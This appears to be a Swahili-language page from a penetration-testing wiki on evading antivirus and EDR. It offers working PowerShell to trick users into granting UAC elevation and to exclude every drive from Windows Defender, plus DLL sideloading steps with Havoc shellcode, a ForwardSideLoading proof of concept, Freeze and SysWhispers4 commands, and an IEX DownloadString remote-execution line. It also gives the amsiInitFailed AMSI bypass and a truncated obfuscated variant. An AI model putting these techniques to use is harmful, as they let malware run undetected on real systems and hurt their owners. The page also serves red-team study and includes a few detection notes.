


# Kukwepa Antivirus (AV)

{{#include ../banners/hacktricks-training.md}}

**Ukurasa huu uliandikwa awali na** [**@m2rc_p**](https://twitter.com/m2rc_p)**!**

## Sitisha Defender

- [defendnot](https://github.com/es3n1n/defendnot): Zana ya kusimamisha Windows Defender kufanya kazi.
- [no-defender](https://github.com/es3n1n/no-defender): Zana ya kusimamisha Windows Defender kufanya kazi kwa kujifanya kuwa AV nyingine.
- [Zima Defender ikiwa wewe ni admin](basic-powershell-for-pentesters/README.md)

### Chambo cha UAC cha mtindo wa kisakinishi kabla ya kuingilia Defender

Loaders za umma zinazojifanya cheats za michezo mara nyingi huja kama visakinishi vya Node.js/Nexe visivyosainiwa ambavyo kwanza **humwomba mtumiaji ruhusa za juu** ndipo vizime Defender. Mtiririko ni rahisi:

1. Hakiki kama kuna muktadha wa kiutawala kwa kutumia `net session`. Amri hii hufanikiwa tu ikiwa mtumiaji anayeiendesha ana haki za admin, hivyo ikishindwa inaonyesha kuwa loader inaendeshwa na mtumiaji wa kawaida.
2. Ijiendeshe upya mara moja kwa kutumia kitenzi cha `RunAs` ili kuanzisha kidokezo cha kawaida cha idhini ya UAC huku ikihifadhi mstari wa amri wa awali.

```powershell
if (-not (net session 2>$null)) {
    powershell -WindowStyle Hidden -Command "Start-Process cmd.exe -Verb RunAs -WindowStyle Hidden -ArgumentList '/c ""`<path_to_loader`>""'"
    exit
}
```

Waathiriwa tayari wanaamini kuwa wanasakinisha programu “cracked”, kwa hivyo kwa kawaida hukubali ombi hilo, na hivyo kuipa malware ruhusa zinazohitajika kubadilisha sera ya Defender.<sup>[[26]](#references)</sup>

### Exclusions za `MpPreference` kwa kila herufi ya kiendeshi

Baada ya kupata ruhusa za juu, misururu ya aina ya GachiLoader huongeza maeneo ambayo Defender haiwezi kukagua badala ya kuzima huduma moja kwa moja. Kwanza loader huua GUI watchdog (`taskkill /F /IM SecHealthUI.exe`) kisha huweka **exclusions pana kupindukia** ili kila wasifu wa mtumiaji, saraka ya mfumo na diski inayoweza kuondolewa isiweze kukaguliwa:

```powershell
$targets = @('C:\Users\', 'C:\ProgramData\', 'C:\Windows\')
Get-PSDrive -PSProvider FileSystem | ForEach-Object { $targets += $_.Root }
$targets | Sort-Object -Unique | ForEach-Object { Add-MpPreference -ExclusionPath $_ }
Add-MpPreference -ExclusionExtension '.sys'
```

Key observations:

- Mzunguko huu hupitia kila filesystem iliyowekwa (D:\, E:\, vijiti vya USB, n.k.), kwa hivyo **payload yoyote ya baadaye itakayowekwa popote kwenye diski itapuuzwa**.
- Kutenga kiendelezi cha `.sys` ni hatua ya kujiandaa kwa siku zijazo—washambuliaji wanahifadhi chaguo la kupakia drivers zisizosainiwa baadaye bila kugusa Defender tena.
- Mabadiliko yote huwekwa chini ya `HKLM\SOFTWARE\Microsoft\Windows Defender\Exclusions`, hivyo hatua za baadaye zinaweza kuthibitisha kuwa vizuizi hivyo bado vipo au kuvipanua bila kusababisha UAC tena.

Kwa kuwa hakuna huduma ya Defender inayositishwa, ukaguzi wa kawaida wa afya ya mfumo huendelea kuripoti “antivirus active” ingawa ukaguzi wa wakati halisi haugusi njia hizo.<sup>[[26]](#references)</sup>

## **Mbinu ya Kuepuka AV**

Kwa sasa, AV hutumia mbinu tofauti kuangalia kama faili ni hasidi au la: ugunduzi tuli, uchanganuzi wa mienendo, na kwa EDR za kisasa zaidi, uchanganuzi wa tabia.

### **Ugunduzi tuli**

Ugunduzi tuli hufanywa kwa kutambua mifuatano hasidi inayojulikana au safu za byte ndani ya binary au script, na pia kutoa taarifa kutoka kwenye faili yenyewe (kwa mfano, maelezo ya faili, jina la kampuni, sahihi za kidijitali, ikoni, checksum, n.k.). Hii inamaanisha kuwa kutumia zana za umma zinazojulikana kunaweza kukufanya ugundulike kwa urahisi zaidi, kwa kuwa huenda tayari zimechanganuliwa na kuwekewa alama ya kuwa hasidi. Kuna njia kadhaa za kukwepa aina hii ya ugunduzi:

- **Usimbaji fiche**

Ukisimba binary kwa fiche, AV haitaweza kutambua programu yako, lakini utahitaji aina fulani ya loader ili kusimbua na kuendesha programu hiyo kwenye memory.

- **Ufichaji wa msimbo**

Wakati mwingine unachohitaji ni kubadilisha baadhi ya mifuatano kwenye binary au script yako ili ipite AV, lakini hii inaweza kuchukua muda kulingana na unachojaribu kuficha.

- **Zana maalum**

Ukitengeneza zana zako mwenyewe, hakutakuwa na signature mbaya zinazojulikana, lakini hilo linahitaji muda na juhudi nyingi.

> [!TIP]
> Njia nzuri ya kujaribu ugunduzi tuli wa Windows Defender ni kutumia [ThreatCheck](https://github.com/rasta-mouse/ThreatCheck). Hugawa faili katika sehemu nyingi kisha huiagiza Defender ichanganue kila sehemu kivyake. Kwa njia hii, inaweza kukuonyesha hasa ni mifuatano au byte zipi kwenye binary yako zimewekewa alama.

Ninapendekeza sana uangalie [orodha hii ya video za YouTube](https://www.youtube.com/playlist?list=PLj05gPj8rk_pkb12mDe4PgYZ5qPxhGKGf) kuhusu mbinu za vitendo za kuepuka AV.

### Majaribio ya vipengele vya PE bila mtandao kwa classifiers tuli

Byte za payload zilizofungwa au zilizosimbwa kwa fiche ni ingizo moja tu kati ya mengi kwa classifier tuli. EMBER2024 hutoa vipengele vya PE, ikiwa ni pamoja na imports, exports, sections, headers na data ya Authenticode.<sup>[[48]](#references)</sup> Katika jaribio moja la loader, kuongeza imports 141 zinazoonekana kutokuwa na madhara kulipunguza alama ya ubaya ya EMBER2024 kwa 93%, huku imports zinazohusishwa na malware zikiiongeza. Haya ni matokeo ya model hiyo na sampuli hizo, si njia ya kuaminika ya kukwepa bidhaa fulani ya AV/EDR.<sup>[[50]](#references)</sup>

Kwa jaribio la loader lililoidhinishwa, weka payload na njia ya utekelezaji bila kubadilika, badilisha kigezo kimoja tu cha build kwa kila toleo, kisha linganisha alama bila mtandao. Kagua vipengele vya PE vinavyotokana na build, kwa sababu mabadiliko ya build yanaweza kuathiri zaidi ya kundi moja la vipengele.<sup>[[49]](#references)[[50]](#references)</sup> Ili kuweka imports zilizokusudiwa kwenye IAT, ita Win32 APIs ulizochagua kutoka kwenye msimbo unaoweza kufikiwa. Badilisha chaguo na usambaze sehemu za miito katika builds tofauti badala ya kutengeneza kazi moja ya kuficha import isiyobadilika, ambayo inaweza kuwa signature. Jaribio hilo pia liliripoti alama za chini zaidi kwa kutumia code signing halali, export entries na kuongeza idadi ya functions zinazopanua `.pdata`; usainishaji batili ulikuwa na athari ndogo, na athari ya `.pdata` ilikuwa ndogo.<sup>[[50]](#references)</sup>

Package ya `thrember` hutoa uchimbaji wa vipengele na benchmark models. Baada ya kuisakinisha, tumia `thrember.download_models("models")` ukiwa na directory ya `models` iliyopo, kisha endesha scorer kutoka directory yake mama: helper ya kupakua hubadilisha working directory ya sasa. PE classifier inaweza kutoa alama kwa directory ya builds bila kuziwasilisha kwenye huduma ya uchanganuzi:<sup>[[48]](#references)</sup>

```python
from pathlib import Path
import lightgbm as lgb
import thrember

model = lgb.Booster(model_file="models/EMBER2024_PE.model")
for sample in sorted(Path("builds").glob("*.exe")):
    print(sample, thrember.predict_sample(model, sample.read_bytes()))
```

Weka matoleo ya modeli na feature-extractor bila kuyabadilisha wakati wa ulinganisho. Alama ya chini ya offline inaonyesha tu jinsi classifier hii inavyoathiriwa na binary iliyobadilishwa; haithibitishi kukwepa behavioral analysis, emulation, au modeli tofauti ya vendor.<sup>[[49]](#references)[[50]](#references)</sup> Kwa [per-build polymorphism na outer-binary camouflage katika payloads za virtualized](virtualized-payload-execution.md#camouflaging-the-outer-go-executable), angalia modeli tofauti ya utekelezaji.

### **Dynamic analysis**

Dynamic analysis ni pale AV inapotekeleza binary yako kwenye sandbox na kufuatilia shughuli hasidi (kwa mfano, kujaribu kusimbua na kusoma manenosiri ya browser yako, kufanya minidump ya LSASS, n.k.). Sehemu hii inaweza kuwa ngumu zaidi kushughulikia, lakini haya ni baadhi ya mambo unayoweza kufanya ili kukwepa sandboxes.

- **Kuchelewesha kabla ya utekelezaji** Kutegemea jinsi ilivyotekelezwa, hii inaweza kuwa njia nzuri ya kukwepa dynamic analysis ya AV. AV zina muda mfupi sana wa kuchanganua faili ili zisiingilie utendaji wa mtumiaji, kwa hiyo kutumia sleep ndefu kunaweza kuvuruga uchanganuzi wa binaries. Tatizo ni kwamba sandboxes nyingi za AV zinaweza kuruka sleep kulingana na jinsi ilivyotekelezwa.
- **Kukagua rasilimali za mashine** Kwa kawaida sandboxes huwa na rasilimali chache sana za kutumia (kwa mfano, < 2GB RAM), la sivyo zinaweza kupunguza kasi ya mashine ya mtumiaji. Unaweza pia kutumia ubunifu mkubwa hapa, kwa mfano, kwa kukagua halijoto ya CPU au hata kasi ya feni; si kila kitu kitatekelezwa kwenye sandbox.
- **Ukaguzi mahususi kwa mashine** Ikiwa unataka kulenga mtumiaji ambaye workstation yake imeunganishwa kwenye domain ya "contoso.local", unaweza kukagua domain ya kompyuta ili kuona kama inalingana na uliyobainisha. Ikiwa hailingani, unaweza kufanya programu yako itoke.

Inavyoonekana, computername ya Microsoft Defender's Sandbox ni HAL9TH. Kwa hiyo, unaweza kukagua jina la kompyuta kwenye malware yako kabla ya detonation. Jina likiwa HAL9TH, inamaanisha uko ndani ya defender's sandbox, hivyo unaweza kufanya programu yako itoke.

<figure><figcaption><p>chanzo: <a href="https://youtu.be/StSLxFbVz0M?t=1439">https://youtu.be/StSLxFbVz0M?t=1439</a></p></figcaption></figure>

Vidokezo vingine vizuri sana kutoka kwa [@mgeeky](https://twitter.com/mariuszbit) vya kukabiliana na Sandboxes

<figure><figcaption><p><a href="https://discord.com/servers/red-team-vx-community-1012733841229746240">Red Team VX Discord</a> chaneli ya #malware-dev</p></figcaption></figure>

Kama tulivyosema awali kwenye chapisho hili, **public tools** hatimaye **hugunduliwa**, kwa hiyo unapaswa kujiuliza jambo moja:

Kwa mfano, ikiwa unataka kufanya dump ya LSASS, **unahitaji kweli kutumia mimikatz**? Au unaweza kutumia mradi mwingine usiojulikana sana ambao pia hufanya dump ya LSASS?

Jibu sahihi huenda ni la pili. Tukiichukulia mimikatz kama mfano, huenda ni mojawapo ya malware zinazotiwa alama nyingi zaidi na AVs na EDRs; ingawa mradi wenyewe ni mzuri sana, pia ni ndoto mbaya kuutumia ili kukwepa AVs. Kwa hiyo, tafuta tu mbadala wa kile unachojaribu kufanya.

> [!TIP]
> Unaporekebisha payloads zako ili kukwepa detection, hakikisha **unazima automatic sample submission** kwenye defender, na tafadhali, kwa kweli, **USIPAKIE KWENYE VIRUSTOTAL** ikiwa lengo lako ni kufanikisha evasion kwa muda mrefu. Ikiwa unataka kuangalia kama AV fulani inagundua payload yako, isakinishe kwenye VM, jaribu kuzima automatic sample submission, kisha ijaribu hapo hadi uridhike na matokeo.

## EXEs dhidi ya DLLs

Inapowezekana, **tanguliza kutumia DLLs kwa evasion** kila wakati. Kwa uzoefu wangu, faili za DLL kwa kawaida **hugunduliwa na kuchanganuliwa kwa kiwango cha chini zaidi**, kwa hiyo ni mbinu rahisi sana ya kuepuka detection katika baadhi ya hali (ikiwa payload yako inaweza kuendeshwa kama DLL, bila shaka).

Kama tunavyoona kwenye picha hii, DLL Payload kutoka Havoc ina detection rate ya 4/26 kwenye antiscan.me, ilhali EXE payload ina detection rate ya 7/26.

<figure><figcaption><p>ulinganisho wa antiscan.me wa Havoc EXE payload ya kawaida dhidi ya Havoc DLL ya kawaida</p></figcaption></figure>

Sasa tutaonyesha mbinu kadhaa unazoweza kutumia na faili za DLL ili kuwa stealthier zaidi.

## DLL Sideloading & Proxying

**DLL Sideloading** hutumia mpangilio wa utafutaji wa DLL unaotumiwa na loader kwa kuweka programu ya mwathiriwa na payload(s) hasidi pamoja.

Unaweza kutafuta programu zinazoweza kuathiriwa na DLL Sideloading ukitumia [Siofra](https://github.com/Cybereason/siofra) na script ifuatayo ya powershell:

```bash
Get-ChildItem -Path "C:\Program Files\" -Filter *.exe -Recurse -File -Name| ForEach-Object {
    $binarytoCheck = "C:\Program Files\" + $_
    C:\Users\user\Desktop\Siofra64.exe --mode file-scan --enum-dependency --dll-hijack -f $binarytoCheck
}
```

Amri hii itatoa orodha ya programu zilizo hatarini kwa DLL hijacking ndani ya "C:\Program Files\\" pamoja na faili za DLL zinazojaribu kupakia.

Ninapendekeza sana **uchunguze mwenyewe programu zinazoweza kufanyiwa DLL Hijack/Sideload**. Mbinu hii ni fiche sana ikitekelezwa ipasavyo, lakini ukitumia programu za DLL Sideload zinazojulikana hadharani, unaweza kugundulika kwa urahisi.

Kuweka tu DLL hasidi yenye jina ambalo programu inatarajia kupakia hakutapakia payload yako, kwa kuwa programu inatarajia kuwe na functions fulani maalum ndani ya DLL hiyo. Ili kutatua tatizo hili, tutatumia mbinu nyingine inayoitwa **DLL Proxying/Forwarding**.

**DLL Proxying** husambaza calls ambazo programu hufanya kutoka kwenye DLL ya proxy (na hasidi) hadi kwenye DLL asili, hivyo kuhifadhi utendakazi wa programu na kuwezesha kushughulikia utekelezaji wa payload yako.

Nitatumia mradi wa [SharpDLLProxy](https://github.com/Flangvik/SharpDllProxy) kutoka kwa [@flangvik](https://twitter.com/Flangvik/)

Hizi ndizo hatua nilizofuata:

```
1. Find an application vulnerable to DLL Sideloading (siofra or using Process Hacker)
2. Generate some shellcode (I used Havoc C2)
3. (Optional) Encode your shellcode using Shikata Ga Nai (https://github.com/EgeBalci/sgn)
4. Use SharpDLLProxy to create the proxy dll (.\SharpDllProxy.exe --dll .\mimeTools.dll --payload .\demon.bin)
```

Amri ya mwisho itatupa faili 2: kiolezo cha msimbo chanzo wa DLL, na DLL asili iliyopewa jina jipya.

<figure><figcaption></figcaption></figure>

```
5. Create a new visual studio project (C++ DLL), paste the code generated by SharpDLLProxy (Under output_dllname/dllname_pragma.c) and compile. Now you should have a proxy dll which will load the shellcode you've specified and also forward any calls to the original DLL.
```

Haya ndiyo matokeo:

<figure><figcaption></figcaption></figure>

Shellcode yetu (iliyokodishwa kwa [SGN](https://github.com/EgeBalci/sgn)) na proxy DLL zina kiwango cha Detection cha 0/26 kwenye [antiscan.me](https://antiscan.me)! Naweza kusema huo ni mafanikio.

<figure><figcaption></figcaption></figure>

> [!TIP]
> **Ninapendekeza sana** utazame [VOD ya S3cur3Th1sSh1t kwenye Twitch](https://www.twitch.tv/videos/1644171543) kuhusu DLL Sideloading na pia [video ya ippsec](https://www.youtube.com/watch?v=3eROsG_WNpE) ili ujifunze zaidi kuhusu tulichojadili kwa kina.

### Kutumia vibaya Forwarded Exports (ForwardSideLoading)

Moduli za Windows PE zinaweza ku-export functions ambazo kwa kweli ni "forwarders": badala ya kuelekeza kwenye code, ingizo la export lina mfuatano wa ASCII wa muundo `TargetDll.TargetFunc`. Caller inapotafuta export, Windows loader itafanya yafuatayo:

- Itapakia `TargetDll` ikiwa bado haijapakiwa
- Itatafuta `TargetFunc` ndani yake

Tabia muhimu za kuelewa:
- Ikiwa `TargetDll` ni KnownDLL, itatolewa kutoka kwenye namespace iliyolindwa ya KnownDLLs (kwa mfano, ntdll, kernelbase, ole32).<sup>[[15]](#references)</sup>
- Ikiwa `TargetDll` si KnownDLL, utaratibu wa kawaida wa utafutaji wa DLL hutumika, ukiwemo directory ya moduli inayofanya forward resolution.

Hii huwezesha primitive ya sideloading isiyo ya moja kwa moja: tafuta DLL iliyosainiwa inayo-export function iliyoelekezwa kwenye jina la moduli lisilo la KnownDLL, kisha weka DLL hiyo iliyosainiwa pamoja na DLL inayodhibitiwa na mshambulizi yenye jina sawa kabisa na moduli lengwa lililoelekezwa. Forwarded export inapoombwa, loader hutatua forward na kupakia DLL yako kutoka directory hiyo hiyo, na kutekeleza DllMain yako.<sup>[[13]](#references)</sup>

Mfano ulioonekana kwenye Windows 11:

```
keyiso.dll KeyIsoSetAuditingInterface -> NCRYPTPROV.SetAuditingInterface
```

`NCRYPTPROV.dll` si KnownDLL, kwa hivyo hupatikana kwa kutumia mpangilio wa kawaida wa utafutaji.

PoC (nakili-bandika):
1) Nakili system DLL iliyotiwa saini kwenye folda inayoweza kuandikiwa kwenyefinal
```
copy C:\Windows\System32\keyiso.dll C:\test\
```
2) Weka `NCRYPTPROV.dll` hasidi kwenye folda hiyo hiyo. `DllMain` ndogo kabisa inatosha kupata code execution; huhitaji kutekeleza forwarded function ili kuanzisha `DllMain`.
```c
// x64: x86_64-w64-mingw32-gcc -shared -o NCRYPTPROV.dll ncryptprov.c
#include <windows.h>
BOOL WINAPI DllMain(HINSTANCE hinst, DWORD reason, LPVOID reserved){
    if (reason == DLL_PROCESS_ATTACH){
        HANDLE h = CreateFileA("C\\\\test\\\\DLLMain_64_DLL_PROCESS_ATTACH.txt", GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
        if(h!=INVALID_HANDLE_VALUE){ const char *m = "hello"; DWORD w; WriteFile(h,m,5,&w,NULL); CloseHandle(h);}        
    }
    return TRUE;
}
```
3) Anzisha forward kwa kutumia LOLBin iliyosainiwa:
```
rundll32.exe C:\test\keyiso.dll, KeyIsoSetAuditingInterface
```

Tabia iliyozingatiwa:
- rundll32 (signed) hupakia `keyiso.dll` ya side-by-side (signed)
- Wakati wa kutatua `KeyIsoSetAuditingInterface`, loader hufuata forward kwenda `NCRYPTPROV.SetAuditingInterface`
- Kisha loader hupakia `NCRYPTPROV.dll` kutoka `C:\test` na kutekeleza `DllMain` yake
- Ikiwa `SetAuditingInterface` haijatekelezwa, utapata hitilafu ya "missing API" baada tu ya `DllMain` kuendeshwa

Vidokezo vya utafutaji:
- Lenga forwarded exports ambako target module si KnownDLL. KnownDLLs zimeorodheshwa chini ya `HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\KnownDLLs`.
- Unaweza kuorodhesha forwarded exports kwa kutumia zana kama:
```
dumpbin /exports C:\Windows\System32\keyiso.dll
# forwarders appear with a forwarder string e.g., NCRYPTPROV.SetAuditingInterface
```
- Tazama orodha ya forwarder za Windows 11 ili kutafuta zinazoweza kufaa: https://hexacorn.com/d/apis_fwd.txt<sup>[[14]](#references)</sup>

Mawazo ya utambuzi/ulinzi:
- Fuatilia LOLBins (k.m., rundll32.exe) zinazopakia DLL zilizotiwa saini kutoka kwenye njia zisizo za mfumo, kisha kupakia non-KnownDLLs zenye jina msingi sawa kutoka kwenye saraka hiyo
- Toa tahadhari kuhusu minyororo ya process/module kama: `rundll32.exe` → `keyiso.dll` isiyo ya mfumo → `NCRYPTPROV.dll` katika njia zinazoweza kuandikwa na watumiaji
- Tekeleza sera za uadilifu wa code (WDAC/AppLocker) na ukatae ruhusa za write+execute katika saraka za programu

## [**Freeze**](https://github.com/optiv/Freeze)

`Freeze ni zana ya payload ya kukwepa EDR kwa kutumia processes zilizosimamishwa, direct syscalls, na mbinu mbadala za utekelezaji`

Unaweza kutumia Freeze kupakia na kutekeleza shellcode yako kwa njia ya siri.

```
Git clone the Freeze repo and build it (git clone https://github.com/optiv/Freeze.git && cd Freeze && go build Freeze.go)
1. Generate some shellcode, in this case I used Havoc C2.
2. ./Freeze -I demon.bin -encrypt -O demon.exe
3. Profit, no alerts from defender
```

<figure><figcaption></figcaption></figure>

> [!TIP]
> Evasion ni mchezo wa paka na panya tu; kinachofanya kazi leo kinaweza kugunduliwa kesho. Kwa hiyo, usitegemee zana moja pekee. Ikiwezekana, jaribu kuunganisha mbinu nyingi za evasion.

## Syscalls za Moja kwa Moja/Zisizo za Moja kwa Moja na Utatuzi wa SSN (SysWhispers4)

EDR mara nyingi huweka **user-mode inline hooks** kwenye syscall stubs za `ntdll.dll`. Ili kukwepa hooks hizo, unaweza kutengeneza syscall stubs za **moja kwa moja** au **zisizo za moja kwa moja** zinazopakia **SSN** (System Service Number) sahihi na kuhamia kwenye kernel mode bila kutekeleza entrypoint ya export iliyowekewa hook.<sup>[[32]](#references)</sup>

**Chaguo za invocation:**
- **Direct (embedded)**: weka maagizo ya `syscall`/`sysenter`/`SVC #0` kwenye stub iliyotengenezwa (hakuna kugusa export ya `ntdll`).
- **Indirect**: ruka hadi kwenye gadget iliyopo ya `syscall` ndani ya `ntdll` ili mpito kwenda kernel uonekane kana kwamba unatoka `ntdll` (ni muhimu kwa kukwepa heuristic); **randomized indirect** huchagua gadget kutoka kwenye mkusanyiko kwa kila call.
- **Egg-hunt**: epuka kuweka mfuatano tuli wa opcode `0F 05` kwenye diski; tafuta mfuatano wa syscall wakati wa utekelezaji.

**Mikakati ya utatuzi wa SSN inayostahimili hooks:**
- **FreshyCalls (VA sort)**: kadiria SSN kwa kupanga syscall stubs kulingana na virtual address badala ya kusoma bytes za stub.
- **SyscallsFromDisk**: weka kwenye memory `\KnownDlls\ntdll.dll` safi, soma SSN kutoka `.text` yake, kisha iondoe kwenye memory (hukwepa hooks zote zilizo kwenye memory).
- **RecycledGate**: changanya ukadiriaji wa SSN kwa kupanga VA na uthibitishaji wa opcode wakati stub iko safi; ikiwa imewekewa hook, tumia ukadiriaji wa VA.
- **HW Breakpoint**: weka DR0 kwenye agizo la `syscall` na utumie VEH kunasa SSN kutoka `EAX` wakati wa utekelezaji, bila kuchanganua bytes zilizowekewa hook.

Mfano wa matumizi ya SysWhispers4:
```bash
# Indirect syscalls + hook-resistant resolution
python syswhispers.py --preset injection --method indirect --resolve recycled

# Resolve SSNs from a clean on-disk ntdll
python syswhispers.py --preset injection --method indirect --resolve from_disk --unhook-ntdll

# Hardware breakpoint SSN extraction
python syswhispers.py --functions NtAllocateVirtualMemory,NtCreateThreadEx --resolve hw_breakpoint
```

Unapochanganua exports safi za syscall za x64 `ntdll` ili kupata SSN, ruhusu `4C 8B D1 B8` (`mov r10, rcx; mov eax, imm32`) na mfuatano huohuo ukitanguliwa na `F3 0F 1E FA` (`endbr64`). Hii ya pili ni stub yenye kiambishi awali cha CET: parser inayodhani SSN iko kila mara kwenye offset moja isiyobadilika haitaitambua. Ikiwa uanzishaji wa indirect-syscall utashindwa na loader ikatumia tena `GetProcAddress`, miito kupitia exports hizo inaweza kukutana tena na user-mode hooks.<sup>[[54]](#references)</sup>

### Exports mbadala za syscall katika `tprtdll.dll`

Mradi unaripoti kuwa `tprtdll.dll` ni DLL iliyosainiwa na Microsoft na inapatikana katika `C:\Windows\System32\` kwenye Windows 11 build 26100 na matoleo ya baadaye. Ina anwani tofauti za msimbo na `ntdll.dll`, kwa hivyo hook inayorekebisha tu entrypoint ya syscall ya `ntdll` hairekebishi stub inayolingana ya `tprtdll`. Tofauti na mbinu za utatuzi wa SSN zilizo hapo juu, mbinu hii hupakia `tprtdll.dll` na kuita export ya `Nt*` au `Zw*` inayopatikana moja kwa moja kupitia `GetProcAddress`. Hakikisha kuwa DLL na exports zinazohitajika zipo, na utumie prototypes zinazofaa za vitendaji vya NT.<sup>[[55]](#references)</sup>

PoC ya self-injection hutumia `tprtdll!NtAllocateVirtualMemoryEx` kutenga kumbukumbu ya RW, kunakili bytes kwa `memcpy`, kubadilisha eneo hilo kuwa RX kwa `tprtdll!ZwProtectVirtualMemory`, na kuanzisha thread kwa `tprtdll!RtlCreateUserThread`.<sup>[[56]](#references)</sup> Lahaja ya cross-process inahitaji handle inayoweza kufikiwa ya mchakato lengwa na hutumia `WriteProcessMemory` kunakili.<sup>[[57]](#references)</sup> Orodha ya exports ya mradi haina `NtOpenProcess`, `NtWriteVirtualMemory`, na `NtCreateThreadEx`, kwa hiyo si kila operesheni ya injection inaweza kutumia export mbadala.<sup>[[55]](#references)</sup>

PoC haithibitishi kuwa `RtlCreateUserThread` ni direct syscall stub au kwamba miito yake ya ndani huepuka hooks za `ntdll` kwa sababu tu export ilitatuliwa kutoka `tprtdll`.<sup>[[56]](#references)</sup> Mfano wa cross-process pia una anwani za `WinExec` na `ExitThread` zilizotatuliwa kwenye injector; anwani hizo lazima ziwe halali katika mchakato lengwa ili payload ya mfano ifanye kazi.<sup>[[57]](#references)</sup>

Hii hupita tu hooks zilizowekwa kwenye exports zinazolingana za `ntdll`; haifichi syscalls dhidi ya ufuatiliaji wa kiwango cha kernel.<sup>[[55]](#references)</sup> Kwa njia ya injection inayokwepa badala yake uandishi wa mbali na uundaji wa thread mpya, tazama [Thread Name-Calling and Waiting Thread Hijacking](windows-process-injection-thread-name-calling-waiting-thread-hijacking.md).

## AMSI (Anti-Malware Scan Interface)

AMSI iliundwa kuzuia "[fileless malware](https://en.wikipedia.org/wiki/Fileless_malware)". Hapo awali, AV ziliweza kuchanganua **faili zilizo kwenye diski** pekee, kwa hiyo ikiwa ungeweza kutekeleza payloads **moja kwa moja kwenye kumbukumbu**, AV isingeweza kuzuia hilo kwa sababu haikuwa na mwonekano wa kutosha.

Kipengele cha AMSI kimeunganishwa katika vipengele hivi vya Windows.

- User Account Control, au UAC (uinukaji wa EXE, COM, MSI, au usakinishaji wa ActiveX)
- PowerShell (scripts, matumizi shirikishi, na tathmini ya msimbo wa nguvu)
- Windows Script Host (wscript.exe na cscript.exe)
- JavaScript na VBScript
- Macros za Office VBA

Hurusu suluhisho za antivirus kukagua tabia ya script kwa kuonyesha maudhui ya script katika umbo lisilosimbwa wala kufichwa.

Kuendesha `IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1')` kutazalisha tahadhari ifuatayo kwenye Windows Defender.

<figure><figcaption></figcaption></figure>

Angalia jinsi inavyoweka `amsi:` mwanzoni, ikifuatiwa na njia ya faili ya kitekelezi ambamo script iliendeshwa; katika hali hii, powershell.exe

Hatukuweka faili yoyote kwenye diski, lakini bado tulinaswa tukiwa kwenye kumbukumbu kwa sababu ya AMSI.

Zaidi ya hayo, kuanzia **.NET 4.8**, msimbo wa C# pia huendeshwa kupitia AMSI. Hili huathiri hata `Assembly.Load(byte[])` inayotumika kupakia msimbo wa utekelezaji ulio kwenye kumbukumbu. Ndiyo maana inashauriwa kutumia matoleo ya chini ya .NET (kama 4.7.2 au ya chini) kwa utekelezaji ulio kwenye kumbukumbu ikiwa unataka kukwepa AMSI.

Kuna njia kadhaa za kukwepa AMSI:

- **Obfuscation**

Kwa kuwa AMSI hutegemea zaidi ugunduzi wa tuli, kurekebisha scripts unazojaribu kupakia kunaweza kuwa njia nzuri ya kukwepa ugunduzi.

Hata hivyo, AMSI inaweza kufichua scripts zilizofichwa hata zikiwa na tabaka nyingi, kwa hiyo obfuscation inaweza kuwa chaguo baya kutegemea jinsi inavyofanywa. Hii hufanya kukwepa AMSI kusiwe rahisi moja kwa moja. Ingawa wakati mwingine unachohitaji ni kubadilisha majina kadhaa ya vigeu na utakuwa tayari; kwa hiyo inategemea kiwango ambacho kitu kimewekewa alama.

- **AMSI Bypass**

Kwa kuwa AMSI hutekelezwa kwa kupakia DLL kwenye mchakato wa powershell (pia cscript.exe, wscript.exe, n.k.), inawezekana kuichezea kwa urahisi hata ukiwa mtumiaji asiye na ruhusa za juu. Kutokana na dosari hii katika utekelezaji wa AMSI, watafiti wamegundua njia nyingi za kukwepa uchanganuzi wa AMSI.

**Kulazimisha Hitilafu**

Kulazimisha uanzishaji wa AMSI ushindwe (amsiInitFailed) kutasababisha uchanganuzi kutoanzishwa katika mchakato wa sasa. Hili lilifichuliwa awali na [Matt Graeber](https://twitter.com/mattifestation), na Microsoft imeunda saini ili kuzuia matumizi mapana zaidi.

```bash
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

Kilichohitajika tu ni mstari mmoja wa msimbo wa PowerShell ili kufanya AMSI isitumike katika mchakato wa sasa wa PowerShell. Bila shaka, mstari huu umewekewa alama na AMSI yenyewe, kwa hiyo unahitaji marekebisho fulani ili kutumia mbinu hii.

Huu hapa ni AMSI bypass iliyorekebishwa niliyoichukua kutoka kwenye [Github Gist](https://gist.github.com/r00t-3xp10it/a0c6a368769eec3d3255d4814802b5db).

```bash
Try{#Ams1 bypass technic nº 2
      $Xdatabase = 'Utils';$Homedrive = 'si'
